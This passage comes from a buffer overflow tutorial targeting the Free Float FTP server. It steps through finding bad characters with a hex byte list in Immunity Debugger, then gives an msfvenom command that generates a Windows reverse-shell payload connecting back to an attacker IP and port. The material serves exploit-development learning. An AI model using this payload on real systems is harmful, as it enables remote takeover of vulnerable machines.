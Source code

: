 <h3>4. Shell Code</h3>
<h4>4.1 Finding Bad characters </h4>
Before creating the shell code, we need to figure out which characters are good for the code and which all are bad.</br>
We can find it by running all the hex characters through the program and how it parses out. </br>
We are doing this because some characters may be used by the application for a particular function and we do not want to include it in our code, which would break it.</br>
        
    badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10"
	"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
	"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
	"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
	"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
	"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
	"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
	"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
	"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
	"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
	"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
	"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
	"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
	"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
	"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
	"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
For this let's use a Python <a href = "https://raw.githubusercontent.com/V4g4b0nd/Projects/main/Bufffer%20Overflow%20(Free%20Float%20FTP)/badcharacters.py">script</a>, to make our life easier! </br>

Upon running the script, we could see that the Immunity got paused, right-click the ESP and select follow in Dump.</br>
We would be able to see our payload and there is a difference after 09, we are seeing 2E which is not what we provided.</br>
<img src = "https://imgur.com/vAHR5mo.png" height="40%" width="40%"></br>
Now we know that **0xa** is a bad character and shouldn't be used in our payload.</br>
Let's remove that in our script and run it again</br>
<img src = "https://imgur.com/qJoQpog.png" height="40%" width="40%"></br>
Again the programme will crash, right click on ESP value and select Follow in Dump.</br>
We could see that the letters B and C are showing up but again we are seeing the 2E, let's remove the **0xd** which is a bad character and run it again.</br>
<img src = "https://imgur.com/Sd9OPNv.png" height="40%" width="40%"></br>
Now we are able to see all the characters just like we intended. So the bad characters that we need to avoid are</br>

 	0x0(which is always a bad character), 0xa,0xd
<img src = "https://imgur.com/eDcPUk8.png" height="40%" width="40%"></br>

<h4>4.1 Generating Shell code</h4>
We can use msfvenom for this and create areverse shell (victim us connecting back to us)</br>

	Msfvenom -p windows/shell_reverse_tcp LHOST = 192.168.1.49 LPORT = 1234 EXITFUNC=thread -f python -a x86 -b "\X00\x0a\x0d"
 	-p = payload
	LHOST = attack machine IP
	LPORT = listening port
	EXITFUNC = for stability 
	-f = file type
	-a = architecture 
	-b = bad characters
 